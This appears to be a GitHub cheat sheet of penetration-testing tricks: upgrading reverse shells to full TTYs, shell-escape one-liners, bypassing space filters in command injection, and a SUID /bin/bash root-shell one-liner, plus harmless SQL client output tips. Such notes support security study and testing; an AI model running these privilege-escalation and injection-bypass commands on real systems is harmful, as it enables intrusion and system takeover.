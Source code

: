# Here you can find some tricks I learned over the years of doing security work


## Python one line import
Python allows one line imports with the \_\_import\_\_ method. This can be used to run module code in one line to bypass restrictions. 
```py
__import__('some_module').some_function()
```

## Upgrade Reverse Shell with Python
When catching a reverse shell it's often just a primitive shell, that does not allow tab completion, ctrl-c or clear functionality.
Upgrading a primitive shell can solve these issues. First you need to spawn a proper pseudoterminal that acts like a normal terminal. 
This can be done via python with:
```bash
python -c "import pty; pty.spawn('/bin/bash')" # Spawn pseudo tty 
```
This allows you to interact with everything like you would with a normal terminqal.
No we disable the echo so that our commands are not displayed twice and enable raw tty to pass commands like ctrl-c straight through to our pseudo terminal with:
```bash
# Press ctrl-z to background the reverse shell
stty -a # List all tty settings
stty -echo raw;fg # Run this in your terminal not. (If you run zsh the ;fg is needed otherwise it can be done in two commands)
# You might need to press enter one or two times
stty rows <number_of_rows> cols <number_of_cols> # You get both numbers from stty -a
export TERM=xterm # Run in the pseudo terminal again to allow clear command
```

## Upgrading Shell without Python ([SRC](https://github.com/RoqueNight/Reverse-Shell-TTY-Cheat-Sheet))
```
script /dev/null -c bash
perl —e 'exec "/bin/sh";'
perl: exec "/bin/sh";
echo os.system('/bin/bash')
/bin/sh -i
ruby: exec "/bin/sh"
lua: os.execute('/bin/sh')
```

## Upgrading a Windows Shell
Upgrading a windows shell is really hard. Possible ways are using a socat binary, a meterpreter shell or the following crude way using `rlwrap`:
```bash
rlwrap nc -lvnp <PORT>
```
When the reverseshell connects, it is partially interactive. It allows to use the arrows keys to edit the line and recall the command history.
Although this is a upgrade to a crude shell it still lacks some interactivity such as being able to CTRL-C a running program. I get some problems when
upgrading that shell fully though.

## Infinite Ping
On linux machines doing a ping results in a infinite running command. 
Thus pinging to check for command injection should be done with a max number of pings:
```bash
ping -c 5
```

## OS Fingerprinting with Ping
Different operating system have different inital TTL values when responding to a ping and thus can be fingerprinted:
```bash
ping -c 5 some_ip
# Linux TTL: Around 64
# Windows TTL Around 128
```

## Temporary Files
The `/dev/shm` 'directory' in Linux is a tempfs. The files placed in there are living in RAM only and thus are deleted with each reboot.
This makes it fast to write to and read from. 

## SSH Port Forwarding after connecting
When enabling `EnableEscapeCommandline` in your SSH config it is possible to use `~C` to change the SSH connection parameters allowing
to enable port forwarding and more. [See here](https://man.openbsd.org/ssh_config#EnableEscapeCommandline)

## Bypassing Space Restrictions
If you are restricted of using spaces in your command injections you might be able to bypass it with the following methods:
```bash
# 1. bash curly brace expansion
{echo,test} == echo test

# 2. IFS Variable
echo${IFS}test == echo test
```

## Fast root shell
If you only have restricted command injection as root you can try to change the permissions of /bin/bash to have the suid bit set, if you are already on the system
with another user.
```bash
chmod u+s /bin/bash
/bin/bash -p # as the other user

# Oneliner
chmod 4777 /bin/bash && /bin/bash -p
```

# Change output format of SQL clients
```bash
# SQLite
.mode table # Default mode, similar to box
.mode box # Create a box around everything
.mode line # Make rows instead of columns - This is really useful
.mode list # Simple list format
More modes can be found at https://sqlite.org/cli.html#changing_output_formats

# MySQL
SELECT * FROM table \G # \G does the same as the .mode line in SQLite

Postgres
\x on # Change to mode similar to .mode line
```

